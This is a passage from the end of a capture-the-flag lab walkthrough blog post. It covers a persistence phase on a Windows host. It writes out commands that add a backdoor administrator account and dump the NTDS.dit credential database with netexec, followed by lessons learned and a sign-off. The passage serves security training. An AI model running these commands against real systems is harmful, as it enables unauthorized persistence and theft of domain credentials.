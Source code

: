 -   **I get the flag**:
    -   {{< figure src="/ox-hugo/2024-10-21-143235_.png" >}}


## 5. Persistence: {#5-dot-persistence}


### Adding a user as an administrator: {#adding-a-user-as-an-administrator}

-   **Add ourselves as a user**:
    -   As we have a limited &amp; unstable shell access the easiest thing to do is add ourselves to the host &amp; then as an administrator. This will then allow us to perform further persistence steps
        1.  **Add ourselves as a new user**:
            -   `net user bloodstiller bl00dst1ll3r! /add`
            -   {{< figure src="/ox-hugo/2024-10-21-143943_.png" >}}
        2.  **Add ourselves to the administrators group**:
            -   `net localgroup Administrators bloodstiller /add`
            -   {{< figure src="/ox-hugo/2024-10-21-143957_.png" >}}


### Dumping NTDS.dit: {#dumping-ntds-dot-dit}

-   **Dump** `NTDS.dit`:
    -   Now we have administrator access as our user we can dump the `NTDS.dit` using netexec:
    -   `netexec smb $box -u $user -p $pass -M ntdsutil`
    -   {{< figure src="/ox-hugo/2024-10-21-144113_.png" >}}

-   **Lets confirm the local adminstrator hash works**:
    -   {{< figure src="/ox-hugo/2024-10-21-144417_.png" >}}


## Lessons Learned: {#lessons-learned}


### What did I learn? {#what-did-i-learn}

1.  LDAP is the best. But really it can be used to get alot of valuable information.


### What silly mistakes did I make? {#what-silly-mistakes-did-i-make}

1.  Nothing terrible this time. Slow methodical manual enumeration was the way to solve this box.


## Sign off: {#sign-off}

Remember, folks as always: with great power comes great pwnage. Use this knowledge wisely, and always stay on the right side of the law!

Until next time, hack the planet!

&#x2013; Bloodstiller

&#x2013; Get in touch bloodstiller at proton dot me


